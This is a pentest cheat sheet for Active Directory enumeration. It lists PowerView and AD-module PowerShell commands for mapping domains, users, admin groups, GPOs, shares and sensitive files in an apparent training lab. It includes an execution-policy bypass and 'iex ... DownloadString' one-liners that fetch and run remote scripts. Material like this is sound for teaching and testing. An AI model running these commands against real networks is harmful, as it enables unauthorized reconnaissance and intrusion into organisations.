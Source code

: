 <div align="center">
<h1> Attacking and Defending Active Directory :nepal: </h1>
<a href="https://twitter.com/nirajkharel7" ><img src="https://img.shields.io/twitter/follow/nirajkharel7?style=social" /> </a>
</div>

## Domain Enumerationn Part 1
- The enumeration can be done by using Native executables and .NET classes
- `$ADClass = [System.DirectoryServices.ActiveDirectory.Domain]`
- `$ADClass::GetCurrentDomain()`
- Where `DirectoryServices.ActiveDirectory.Domain` is a class and `GetCurrentDomain()` is a static method.

**Domain Enumeration with Powerview and AD PowerShell module**
- To speed up things we can use Powerview:
- `https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1`

- The Active Directory PowerShell module
- `https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps`
- `https://github.com/samratashok/ADModule`
- (To use ActiveDirectory module without installing RSAT, we can use Import-Module for the valid ActiveDirectory module DLL)

**Run unrestricted commands with powershell**
- `powershell -ep bypass`
- **Powerview Script Download**
- `iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dievus/PowerShellForPentesters/main/Tools/PowerView.ps1')`
- **ActiveDirectory Module Download**
- `https://github.com/samratashok/ADModule` Download and Execute with `. .\Import-ActiveDirectory.ps1;Import-ActiveDirectory`
-  or
- `iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory `

**Get Current Domain**
- `Get-NetDomain` (Powerview)
- `Get-ADDomain` (ActiveDirectory Module)

**Get object of another domain**
- `Get-NetDomain -Domain <domain-name>`
- `Get-ADDomain -Identity <domain-name>`

**Get Domain SID for the current domain**
- `Get-DomainSID`
- `(Get-ADDomain).DomainSID`

**Get domain policy for the current domain**
- `Get-DomainPolicy`
- `(Get-DomainPolicy)."system acccess"`

**Get domain policy for another domain**
- `(Get-DomainPolicy -domain moneycorp.local)".system access"`

**Get domain controllers for the current domain**
- `Get-NetDomainController`
- `Get-ADDomainController`

**Get domain controllers for another domain**
- `Get-NetDomainController -Domain <domain-name>`
- `Get-ADDomainController -DomainName <domain-name> -Discover`

**Get a list of users in the current domain**
- `Get-NetUser`
- `Get-NetUser -Username <username>`
- `Get-ADUser -Filter * -Properties *`
- `Get-ADUser -Identity <username> -Properties *`

**Get list of all properties for users in the current domain**
- `Get-UserProperty`
- `Get-UserProperty -Properties pwlastset`
- `Get-ADUser -Filter * -Properties * | select -First 1 | Get-Member -MemberType *Property | select Name`
- `Get-ADUser -Filter * -Properties * | select name,@{expression={[datetime]::fromFileTime($_.pwdlastset)}}`

**Search for a particular string in a user's attributes**
- `Find-UserField -SearchField Description`
- `Find-UserField -SearchField Description -SearchTerm "built"`
- `Get-ADUser -Filter 'Description -like "*built*"' -Properties Description | select name,Description`

## Domain Enumeration Part 2
**Get a list of computers in the current domain**
- `Get-NetComputer`
- `Get-NetComputer -OperatingSystem "*Server 2016"`
- `Get-NetComputer -Ping`
- `Get-NetComputer -FullData`
- `Get-ADComputer -Filter *`
- `Get-ADComputer -Filter * | select Name`

**Get all the groups in the current domain**
- `Get-NetGroup`
- `Get-NetGroup -Domain <targetDomain>`
- `Get-NetGroup -FullData`
- `Get-ADGroup -Filter * | select name`
- `Get-ADGroup -Filter * -Properties *`

**Get all groups containing the word "admin" in group name**
- `Get-NetGroup -GroupName *admin*`
- `Get-ADGroup -Filter 'Name -like "*admin*"' | select Name`

**Get all the members of the Domain Admins Group**
- `Get-NetGroupMember -GroupName "Domain Admins" -Recurse`
- `Get-ADGroupMember -Identity "Domain Admins" -Recursive`

**Get the group membership for a user**
- `Get-NetGroup -Username "student1"`
- `Get-ADPrincipalGroupMembership -Identity student1`

**List all the local groups on a machine (needs administrator privs on non-dc machines**
- `Get-NetLocalGroup -ComputerName dcorp-dc.dollarccorp.moneycorp.local -ListGroups

**Get members of all the local groups on a machine (needs administrator privs o non-dc machines)**
- `Get-NetLocalGroup -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Recurse`

**Get actively logged users on a computer (needs local admin rights on the target)**
- `Get-NetLoggedon -ComputerName <servername>`

**Get locally logged users on a computer (needs remote registry on the target - started by-default on server OS)**
- `Get-LoggedonLocal -ComputerName dcorp-dc.dollarcorp.moneycorp.local`

**Get the last logged user on a computer (needs administrative rights and remote registry on the target)**
- `Get-LastLoggedOn -ComputerName <servername>`

**Find shares on hosts in current domain**
- `Invoke-ShareFinder -Verbose`

**Find sensitive files on computer in the domain**
- `Invoke-FileFinder -Verbose`

**Get all fileservers of the domain**
- `Get-NetFileServer`

## Domain Enumeration Part 3
**Domain Enumeration - GPO**
- Group Policy provides the ability to manage configuration and changes easily and centrally in AD.
- Allows configuration of
  - Security Settings
  - Registry-based policy settings
  - Group policy preferences like startup/shutdown/log-on/logogg scripts settings
  - Software installation
- GPO can be abused for various attacks like privesc, backdoors, persistence etc.

**Get list of GPO in current domain**
- `Get-NetGPO`
- `Get-NetGPO -ComputerName dcorp-student1.dollarcorp.moneycorp.local`
- `Get-GPO -All` (GroupPolicy module)
- `Get-GPResultantSetofPolicy -ReportType Html -Path C:\Users\Administrator\report.html` (Provides RSoP)

**Get GPO(s) which use Restricted Groups or groups.xml for interesting users**
Get-NetGPOGroup
